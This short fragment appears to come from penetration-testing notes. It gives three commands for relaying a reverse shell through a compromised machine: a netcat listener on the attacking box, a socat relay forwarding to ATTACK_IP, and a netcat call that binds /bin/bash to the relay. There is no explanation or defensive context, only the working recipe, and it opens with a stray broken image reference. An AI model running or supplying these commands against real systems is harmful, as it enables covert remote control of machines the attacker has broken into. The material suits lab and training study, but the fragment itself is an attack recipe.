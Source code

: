 1. Start nc listening on attacking box `sudo nc -lvnp 443`
2. Start the relay on the compromised box `./socat tcp-l:8000 tcp:ATTACK_IP:443 &`
3. Create reverse shell to newly opened port 8000 on compromised box `nc 127.0.0.1 8000 -e /bin/bash`
